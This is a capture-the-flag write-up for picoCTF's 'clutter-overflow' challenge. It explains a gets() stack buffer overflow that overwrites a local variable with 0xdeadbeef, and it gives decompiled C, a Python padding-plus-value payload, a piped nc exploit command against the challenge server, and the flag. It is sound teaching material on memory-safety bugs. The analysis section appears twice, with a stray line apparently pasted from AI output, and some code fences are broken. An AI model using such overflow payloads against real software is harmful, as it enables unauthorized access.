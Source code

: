 # Challenge Description
Smash the stack! Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here. And connect with it using nc saturn.picoctf.net 65362

The program reads user input into a buffer clutter using the unsafe gets() function. Our goal is to overflow this buffer to overwrite an adjacent 4-byte variable named code with the specific value 0xdeadbeef, bypassing a security check and printing the flag.

## Solution:
This challenge is an example of a stack buffer overflow that targets a local variable rather than the return address.
Step 1: Initial Analysis of the Code
First, I downloaded and examined the source code. Analyzing the binary reveals a main function with logic similar to this:
```
void main(void) {
  char clutter[76]; // Buffer size is 76 bytes
  int code;

  code = 0; // Variable is initialized
  gets(clutter); // Unsafe function reads input

  if (code == 0xdeadbeef) {
    print_flag(); // Our goal
  } else {
    printf("Wrong code\n");
  }
}
```

Vulnerability: The function gets() is notoriously insecure because it does not perform any bounds checking. It will continue writing input to the clutter buffer until it receives a newline, overflowing onto adjacent stack memory.

Stack Layout: Local variables are typically laid out sequentially on the stack. In this 64-bit binary, the clutter buffer is placed on the stack, and the code variable is placed immediately after it in memory.

Exploit Plan: Our payload must be a single string that fills the clutter buffer completely and then "spills over" to overwrite the code variable.

Padding: We need exactly 76 bytes of "junk" data to fill the clutter buffer.

Value: Immediately following the junk, we must provide the 4-byte value 0xdeadbeef.

Endianness: Since x86-64 systems are little-endian, the multi-byte value 0xdeadbeef must be written in reverse byte order: \xef\xbe\xad\xde.

Here is a new write-up for "clutter-overflow," formatted in the same detailed style.

Challenge Breakdown: clutter-overflow
Category: Binary Exploitation (pwn) Vulnerability: Stack Buffer Overflow (Variable Overwrite) Goal: The program reads user input into a buffer clutter using the unsafe gets() function. Our goal is to overflow this buffer to overwrite an adjacent 4-byte variable named code with the specific value 0xdeadbeef, bypassing a security check and printing the flag.

Strategic Analysis
This challenge is a classic example of a stack buffer overflow that targets a local variable rather than the return address.

Source Code / Decompilation: Analyzing the binary (e.g., in Ghidra) reveals a main function with logic similar to this:

C

void main(void) {
  char clutter[76]; // Buffer size is 76 bytes
  int code;

  code = 0; // Variable is initialized
  gets(clutter); // Unsafe function reads input

  if (code == 0xdeadbeef) {
    print_flag(); // Our goal
  } else {
    printf("Wrong code\n");
  }
}
Vulnerability: The function gets() is notoriously insecure because it does not perform any bounds checking. It will continue writing input to the clutter buffer until it receives a newline, overflowing onto adjacent stack memory.

Stack Layout: Local variables are typically laid out sequentially on the stack. In this 64-bit binary, the clutter buffer is placed on the stack, and the code variable is placed immediately after it in memory.

Exploit Plan: Our payload must be a single string that fills the clutter buffer completely and then "spills over" to overwrite the code variable.

Padding: We need exactly 76 bytes of "junk" data to fill the clutter buffer.

Value: Immediately following the junk, we must provide the 4-byte value 0xdeadbeef.

Endianness: Since x86-64 systems are little-endian, the multi-byte value 0xdeadbeef must be written in reverse byte order: \xef\xbe\xad\xde.
## Steps
1. Determining the Offset
Static analysis with Ghidra or dynamic analysis with gdb is used to find the exact size of the clutter buffer.

In Ghidra, the decompiler shows clutter is 76 bytes (e.g., at stack offset rbp-0x50) and code is 4 bytes (e.g., at rbp-0x4). The distance from the start of clutter to the start of code is 0x50 - 0x4 = 0x4c, which is 76 bytes in decimal.

Alternatively, using pwntools-gdb and a De Bruijn sequence (cyclic(100)) would show that the code variable (or rbp-0x4) is overwritten after 76 bytes.

2. Crafting the Payload
The payload will be [76 bytes of padding] + [4-byte value]. We can use Python to construct this.

```python

import struct

# 1. Padding: 76 'A' characters
# We use 'b' to create a byte string
padding = b'A' * 76

# 2. Value: 0xdeadbeef
# We use struct.pack with '<I' to pack it as a
# 4-byte (<I) little-endian (<) unsigned integer.
value = struct.pack('<I', 0xdeadbeef)
# This is equivalent to b'\xef\xbe\xad\xde'

# 3. Final Payload
payload = padding + value
```
3. Executing the Exploit
We send this payload to the remote server using a pipe. The gets() function on the server will read our payload, overflow the clutter buffer, and set the code variable to 0xdeadbeef. The if condition will then pass, and the server will execute print_flag(), sending the flag back to us.


```python

# We use python3 -c "..." to print the raw bytes of our payload
# Note: We must use sys.stdout.buffer.write() to send raw bytes,
# as print() can mangle them.

python3 -c "import sys, struct; padding = b'A' * 76; value = struct.pack('<I', 0xdeadbeef); sys.stdout.buffer.write(padding + value)"
Full exploit pipe:

```

(python3 -c "import sys, struct; padding = b'A' * 76; value = struct.pack('<I', 0xdeadbeef); sys.stdout.buffer.write(padding + value)") | nc saturn.picoctf.net [PORT]
Flag
(The flag would be printed to the console.)

## Flag:
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```
## Concepts Learnt
Stack Buffer Overflow: The fundamental vulnerability where writing to a buffer on the stack exceeds its allocated bounds.

Unsafe C Functions (gets): A clear demonstration of why gets() was deprecated and is extremely dangerous. It has no mechanism to prevent overflows. fgets() is the safe alternative.

Stack Frame Layout: A deeper understanding of how a function's local variables are organized in memory. In this case, they were adjacent, allowing one to overwrite the other.

Data vs. Control Flow Attacks: This was a data-oriented attack. We didn't hijack the program's control flow (by overwriting a return address); we corrupted its data (the code variable) to trick its existing logic.

Endianness (Little-Endian): A critical concept in binary exploitation. Multi-byte numbers like integers (0xdeadbeef) are stored with the least-significant byte (ef) first in memory on x86/x64 systems. Our payload must match this format.

## Notes
Finding the Offset: The most common method for finding offsets in "pwn" challenges is using a De Bruijn sequence, or a "cyclic pattern," generated by pwntools. You send cyclic(100), let the program crash, and then see what value (e.g., 0x6161616a) overwrote the target. cyclic_find(0x6161616a) would then tell you the exact offset (e.g., 76).

Static vs. Dynamic Analysis: This problem could be solved with either.

Static (Ghidra/IDA): Decompiling the binary and reading the stack offsets. This is fast and reliable.

Dynamic (GDB): Running the program and probing it with different-sized inputs until the desired overwrite occurs.

pwn vs. struct: The pwntools Python library simplifies this. p32(0xdeadbeef) is the pwntools equivalent of struct.pack('<I', 0xdeadbeef) and is the standard for CTF players.

## Resources:
1. https://ghidra-sre.org/
2. https://github.com/Gallopsled/pwntools
3. https://www.youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
4. https://www.youtube.com/watch?v=CRTR5ljBjPM

